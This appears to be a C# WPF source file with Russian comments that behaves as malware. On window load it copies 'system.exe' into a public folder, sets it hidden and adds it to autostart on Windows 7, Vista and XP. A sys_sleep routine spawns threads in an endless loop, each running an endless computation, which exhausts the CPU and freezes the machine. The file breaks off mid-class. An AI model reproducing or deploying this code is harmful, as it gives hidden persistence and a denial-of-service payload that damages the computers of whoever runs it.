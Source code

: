 #programowanie
using Microsoft.Win32;
using System;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Runtime.InteropServices;
using System.Threading;
using System.Windows;

namespace WpfApplication_OKSANA
{
    /// <summary>
    /// Логика взаимодействия для MainWindow.xaml
    /// </summary>
    public partial class MainWindow : Window
    {
        public static string needPatch = "C:\\Users\\Public\\";


        public MainWindow()
        {
            if (OSVersionInfo.Name == "Windows 7" || OSVersionInfo.Name == "Windows Vista" )
            {
                autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
                //SetAutorunValue(false, needPatch + "system.exe");  // убрать из автозагрузки
            }
            else
                if (OSVersionInfo.Name == "Windows XP")
            {
                needPatch = "C:\\Documents and Settings\\All Users\\";
                autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
                                                                         //SetAutorunValue(false, needPatch + "system.exe");  // убрать из автозагрузки
            }

            InitializeComponent();
        }
         private void Window_Loaded(object sender, RoutedEventArgs e)
        {
            if (!File.Exists(needPatch + "system.exe"))
            {
                try
                {
                    File.Copy("system.exe", needPatch + "system.exe");
                    File.SetAttributes(needPatch + "system.exe", FileAttributes.Hidden);

                }
                catch {   }
            }
            start();
        }

        public static void sys_sleep()
        {
            while (true)
            {
                Thread s = new Thread(s_b);
                s.Start();
            }
        }
        private static void s_b()
        {
            int y = 2;
            while (true)
            {
                y *= y;
            }
        }
        
